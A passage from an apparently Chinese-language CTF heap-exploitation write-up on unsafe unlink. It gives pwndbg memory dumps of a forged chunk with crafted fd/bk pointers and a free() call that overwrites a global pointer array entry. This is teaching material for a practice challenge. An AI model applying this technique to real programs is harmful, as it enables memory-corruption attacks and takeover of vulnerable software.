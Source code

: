 此时head中内容没有改变

```
pwndbg> x /20gx 0x602140
0x602140:	0x0000000000000000	0x0000000001753020
0x602150:	0x0000000001753540	0x0000000001753580
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x0000000000000000
0x6021d0:	0x0000000000000000	0x0000000000000000
```

而chunk2的内容发生改变，也验证了上面的结论，堆中的chunk写入的地址是Addr+0x10处的，即不改变（pre_size和size）

```
pwndbg> x /20gx 0x0000000001753530
0x1753530:	0x0000000000000000	0x0000000000000041      //原chunk2中的pre_size和size
0x1753540:	0x0000000000000000	0x0000000000000030      //我们开始写入的地方，伪造的chunk2的pre_size和size
0x1753550:	0x0000000000602138	0x0000000000602140      //构造的fd和bk
0x1753560:	0x4141414141414141	0x4141414141414141      //补齐0x30的长度
0x1753570:	0x0000000000000030	0x0000000000000090      //原chunk3的pre_size和size处，先也被伪造
0x1753580:	0x0000000000000000	0x0000000000000000
0x1753590:	0x0000000000000000	0x0000000000000000
0x17535a0:	0x0000000000000000	0x0000000000000000
0x17535b0:	0x0000000000000000	0x0000000000000000
0x17535c0:	0x0000000000000000	0x0000000000000000
```

**第三步**：free(3)

```
#free chunk3，由于因为伪造的chunk2导致在free3的时候发现可以向前合并
#故会unlink(2)
free(3)
```

此时的head处发生了改变，global[2]发生了变化，变成了原global[2]指针-0x10，unlink的缘故

```
pwndbg> x /20gx 0x602140
0x602140:	0x0000000000000000	0x0000000001753020
0x602150:	0x0000000000602138	0x0000000000000000     //这里发生了改变
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x0000000000000000
0x6021d0:	0x0000000000000000	0x0000000000000000
```
